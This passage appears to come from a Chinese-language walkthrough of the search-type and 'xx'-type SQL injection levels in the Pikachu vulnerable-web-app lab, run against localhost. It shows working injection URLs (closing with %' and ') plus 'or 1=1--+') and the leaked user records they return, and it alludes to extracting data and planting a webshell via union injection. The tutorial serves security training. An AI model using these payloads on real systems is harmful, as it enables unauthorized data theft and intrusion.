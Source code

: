    首先利用报错注入，即加入单引号，找出一些关键信息：

   ```sql
   http://localhost/pikachu/vul/sqli/sqli_search.php?name=hack'&submit=%E6%90%9C%E7%B4%A2
   ```

   ```
   页面显示：You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '%'' at line 1
   ```

   有报错信息可知，进而可推断闭合符号为：`%'`，我们来进一步验证一下：

   ```sql
   http://localhost/pikachu/vul/sqli/sqli_search.php?name=hack%' or 1=1--+&submit=%E6%90%9C%E7%B4%A2
   ```

   ```
   username：vince
   uid:1
   email is: vince@pikachu.com
   
   username：allen
   uid:2
   email is: allen@pikachu.com
   
   ......
   ```

   发现我们的猜测是正确的！！！

2. 本关依旧可以利用**联合注入法**，爆数据、植入木马等操作同上述 "数字型注入"



## xx型注入

1. 判断注入类型：

   同**搜索型注入**，由报错注入法所得结果可知，闭合符号为 **`')`**：

   ```sql
   http://localhost/pikachu/vul/sqli/sqli_x.php?name=hack') or 1=1--+&submit=%E6%9F%A5%E8%AF%A2
   ```

   ```
   your uid:1
   your email is: vince@pikachu.com
   
   your uid:2
   your email is: allen@pikachu.com
   
   ......
   ```

2. 本关依旧可以利用**联合注入法**，爆数据、植入木马等操作同上述 "数字型注入"


